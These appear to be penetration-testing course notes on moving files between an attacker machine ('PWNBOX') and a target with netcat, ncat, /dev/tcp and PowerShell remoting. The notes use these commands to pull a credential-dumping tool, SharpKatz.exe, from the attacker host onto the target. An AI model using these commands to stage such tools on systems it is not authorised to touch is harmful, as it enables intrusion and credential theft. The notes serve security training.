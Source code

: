 -----------
# NETCAT & NCAT
----------
- NCAT: a reimplementation of nc to support SSL, IPv6, SOCKS and HTTP proxies
- TARGET
```bash
# NC
nc -lp 8000 > SharpKatz.exe

# NCAT
ncat -l -p 8000 --recv-only > SharpKatz.exe
	--recv-only: close the connection once the file transfer is finished.
```
- PWNBOX
```bash
# NC
nc -q 0 $TARGET 8000 < SharpKatz.exe
	-q 0 will tell Netcat to close the connection once it finishes.
# NCAT
ncat --send-only $TARGET 8000 < SharpKatz.exe
```

- We can also connect the TARGET to a port on our PWNBOX to perform file transfer.
- PWNBOX
```bash
# NC
sudo nc -lp 443 -q 0 < SharpKatz.exe
#NCAT
sudo ncat -lp 443 --send-only < SharpKatz.exe
```
- TARGET
```bash
# NC
nc $PWNBOX 443 > SharpKatz.exe
# NCAT
cat < /dev/tcp/$PWNBOX/443 > SharpKatz.exe
```

---------------------
# PowerShell Session File Transfer
-----------------
- When SMB, HTTP or HTTPS are not available, we can use `PowerShell Remoting (WinRM)`
- `PowerShell Remoting` allows us to execute scripts/commands on a remote computer using PowerShell sessions.
-  DC01 - Confirm WinRM port TCP 5985 is open on DATABASE01
```PowerShell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
- Create a PowerShell Remoting Session to DATABASE01
```PowerShell
$Session = New-PSSession -ComputerName DATABASE01
```
- Copy file from LocalHost to the DATABASE01 Session
```PowerShell
Copy-Item -Path $FILE -ToSession $Session -Destination $DIR
```
- Copy $File2 from DATABASE01 Session to LocahHost
```PowerShell
Copy-Item -Path $File2 -Destination $DIR -FromSession $Session
```
